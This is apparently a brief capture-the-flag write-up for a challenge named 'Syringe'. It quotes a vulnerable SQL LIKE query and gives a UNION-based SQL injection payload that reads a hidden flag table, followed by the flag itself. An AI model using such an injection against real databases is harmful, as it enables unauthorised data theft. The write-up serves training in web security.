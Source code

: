 
## Syringe (338 Points)

> Doctors love their databases! Here is a library of words and semantics relating to medical words, like "syringe", or "x-ray", or "injection". Find whatever you need, just by searching for it! 

Simple SQL Injection challenge. We are given the query:

```
SELECT * FROM semantics WHERE name LIKE "%<userinput>%"
```

We can do a simple injection:

```
garbage%" or name = "doctor" or name LIKE "%garbage%" UNION SELECT * FROM flag WHERE flag LIKE "%
```

and get the flag.

> flag{f2a5006b1b07cc08362772807322ef62}